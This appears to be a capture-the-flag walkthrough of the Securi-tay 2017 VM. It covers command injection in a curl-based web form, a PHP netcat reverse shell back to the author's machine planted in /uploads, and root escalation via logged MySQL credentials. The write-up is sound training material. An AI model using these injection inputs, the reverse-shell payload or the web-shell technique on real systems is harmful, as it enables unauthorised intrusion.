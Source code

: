 # Securi-tay 2017

This CTF can be found here: https://maze.pentest-challenge.co.uk/


Booting up the VM gives you the IP of the target: 

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_securictf_29_04_2017_09_02_56.png)

An NMAP scan of all ports `nmap -p- 192.168.1.143` returns port 80 open, running and HTTP service.

Visiting this in a browser I am presented a page with some kind of "URL connectivity checker" which just returns the resource or the URL that is entered.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_05_20.png)

Looking at the output it is pretty clear the backend is using cUrl to return the requested URL. A couple things pop into my mind, maybe LFI or better yet RCE. 

Before poking at this I went ahead and started bruteforcing directories in the background:

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_16_00.png)

Looking back at index.php I tried a few things the first being LFI.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_06_59.png)

Ok, cool so I can view files on the system maybe there is something interesting we can find, but before spending time looking for interesting files let me see if I can just acheive RCE and get a reverse shell.

I tried some different input that would allow me to append a command to the cUrl command that retreives the resource and it seemed there was some kind of black listing. This prevented me from using something straight forward like, `&` or `|`.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_08_09.png)

Since blacklisting is never a good way to go when preventing input there has to be a way to get a command to execute. Sure enough I found a few different ways to do this. 

I can use something like `$(whoami)` which will evaluate the command in the parenthesis before executing the curl command and return the output in the error.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_17_49.png)

Intercepting the POST request in Burpsuite I was able to insert a URL encoded newline charater `%0a` followed by any command which will execute the command.

I ended up figuring out that I can also just redirect the output of the cUrl command to a file. Looking back at the directory brute force I had started, there is a directory called `/uploads` which is likley writable by www-data.

I created a file on my attacker machine that contained some PHP to execute netcat on the target and connect back to my machine giving me a bash shell `<?php system('nc -c "/bin/bash" 192.168.1.139 444);?>`. Then started up a python simple http sever and requested this file using the interface of the target web app and redirected the output to a file in the uploads directory like so: `http://192.168.1.139:555/backdoor > ./uploads/backdoor.php`. The `>` is redirecting this output of the cUrl command which will be the PHP of the file I created on my attacker machine and putting it into a file called backdoor.php.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_45_20.png)

Check if the file successfully ended up in `/uploads`

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_48_46.png)

Yup, ok now I have my reverse shell on the target machine I can startup netcat on my attacker machine and get a connection.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_53_28.png)

Spawn a proper shell.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_54_25.png)

Now that I have a shell on the target machine the first thing is to look around the environment. I started out looking for any interesting binaries or scripts that may have been created by a user that may perform interesting functions or have permissions set incorrectly. Listing the contents of the home directory for "ctfuser" revealed just that.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_33_39.png)

Look like mydbconnchecker is a binary that we have permission to execute. After running it the output shows that it is loging some information about the mysql database into syslog.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_35_02.png)

Reading syslog to see what is being logged shows that the username of `root` and with a password of `rorscahc` is being used to log into the `mysql` database on localhost `127.0.0.1`.

Taking a look at the proccesses running shows MySQL is running as root..not a good idea.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_42_33.png)

A quick google search showed me I can run shell commands from MySQL https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/ . So now I have MySQL running as root, credentials to log into MySQL and a way to execute a shell command from MySQL. Lets try it out.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_44_26.png)

And there we go.. I can now read generate a flag from the `/root` directory.



